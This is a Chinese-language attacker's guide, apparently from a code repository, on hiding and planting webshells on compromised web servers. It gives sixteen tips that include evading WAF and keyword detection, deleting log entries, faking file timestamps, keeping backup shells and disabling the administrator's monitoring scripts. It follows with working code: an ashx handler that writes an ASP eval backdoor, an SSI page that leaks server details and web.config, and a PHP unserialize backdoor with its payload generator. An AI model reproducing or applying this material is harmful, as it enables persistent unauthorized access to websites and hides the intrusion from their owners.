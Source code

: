 # 隐藏webshell的几条建议

```
1.尽量藏在那些程序员和管理员都不会经常光顾的目录中
比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录

2.目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到

3.webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php

4.webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用

5.靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件……

6.再或者拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除

7.尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析

8.把webshell的属性时间改为和同目录文件相同的时间戳,比如linux中的touch就是非常好的工具

9.当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建

10.利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中

11.如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到

12.养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到

13.在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

14.上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

15.如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell

16.上传.user.ini文件来解析图片或隐藏webshell[https://ha.cker.in/1097.seo]

```

# 写shell技巧

## ashx写入

ashx脚本，服务器有.net环境但aspx被禁止上传时适用。这个执行后会在当前目录下生成webshell.asp一句话木马，密码是pass 也可以写入其它文件

```as
<%@ WebHandler Language="C#" class="Handler"% >
using System;
using System.Web;
using System.IO;
public class Handler:IHttpHandler {
 
public void ProcessRequest (HttpContext context) {
    context.Response.ContentType = "text/plain";
    StreamWriter file = File.CreateText(context.Server.MapPath("webshell.asp")));
    file.Write("<%eval request(\"pass\")%>");
    file.Flush();
    file.Close();
    context.Response.Write("www.webshell.cc");
}
 
public bool IsReusable {
    get {
        return false;
    }
}
}
```



## 别忘了shtml

stm/shtm/shtml脚本，虽然不能直接拿到webshell，但是可以获取到一些服务器信息。注意stm中的include可以将web.config文件中的内容包含进来

```html
<!--#ECHO var="ALL_HTTP"-->
当前文件名称:<!--#ECHO var="DOCUMENT_NAME"-->
Web服务器的名称和版本:<!--#ECHO var="SERVER_SOFTWARE"-->
主机名:<!--#ECHO var="SERVER_NAME"-->
端口:<!--#ECHO var="SERVER_PORT"-->
客户或客户代理IP地址:<!--#ECHO var="REMOTE_ADDR"-->
客户或客户代理主机名:<!--#ECHO var="REMOTE_HOST"-->
PATH_INFO 的值，但带有扩展为某个目录规范的虚拟路径:
<!--#ECHO var="PATH_TRANSLATED"-->
客户端给出附加路径信息:<!--#ECHO var="PATH_INFO"-->
<!--#ECHO var="HTTP_ACCEPT"-->
<!--#ECHO var="DOCUMENT_URI"-->
<!--#include file="../../web.config"-->
```

## 利用unserialize构造webshell

server:

```php
<?php

class foo{
    public $data="text";
    function __destruct()
    {
        eval($this->data);
    }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

client:生成执行地址

```php
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

原理：服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存的foo类模板的`__wakeup`,`__destruct`等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.




## 资料
shtml

https://www.t00ls.net/viewthread.php?tid=21318

Deformity PHP Webshell、Webshell Hidden Learning

http://www.cnblogs.com/LittleHann/p/3522990.html

unserialize免杀webshell

http://3xp10it.cc/web/2017/04/18/unserialize%E5%85%8D%E6%9D%80webshell/